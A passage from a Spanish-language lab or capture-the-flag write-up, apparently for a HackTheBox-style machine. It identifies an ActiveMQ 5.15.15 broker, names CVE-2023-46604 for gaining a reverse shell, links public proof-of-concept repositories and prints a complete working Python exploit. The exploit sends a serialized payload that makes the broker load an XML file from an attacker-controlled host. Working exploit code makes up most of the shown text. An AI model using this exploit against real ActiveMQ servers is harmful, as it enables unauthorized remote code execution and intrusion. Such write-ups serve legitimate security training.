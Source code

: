 La informacion relevante que encuentro es que esta corriendo un Nginx

--------
# [[CVE-2023-46604]] y [[Reverse shell]] para ganar acceso

Entramos a la url del *ActiveMQ* http://10.10.11.243:61616/ nos salen estos caracteres no legibles, pero podemos entender que esta corriendo la version 5.15.15. Buscando en internet vemos que para esta version esta el [[CVE-2023-46604]]
![[Broker13.png]]


[Repositorio del cual saque el archivo poc para linux](https://github.com/rootsecdev/CVE-2023-46604/blob/main/poc-linux.xml) y aca el repositorio del cual saque el [script de python](https://raw.githubusercontent.com/vulhub/vulhub/refs/heads/master/activemq/CVE-2023-46604/poc.py)
Les dejo el contenido de los archivos

#### poc.py
```python
import io
import socket
import sys


def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        # out = io.BytesIO()  # 创建一个内存中的二进制流
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        # print(list(out.getvalue()))
        out.flush()
        out.close()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```
